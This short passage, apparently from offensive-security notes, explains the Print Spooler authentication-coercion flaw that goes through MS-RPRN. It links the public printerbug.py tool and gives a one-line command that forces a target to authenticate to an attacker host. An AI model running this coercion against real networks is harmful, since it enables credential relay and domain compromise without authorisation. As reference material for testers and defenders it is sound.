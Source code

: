 This vulnerability allows low-privileged users to coerce authentications from machines that run the Print Spooler Service by crafting a specific RPC call through MS-RPRN, Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.

It can be exploited with [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
```bash
printerbug.py 'DOMAIN'/'USER':'PASSWORD'@'TARGET' 'ATTACKER HOST'
```
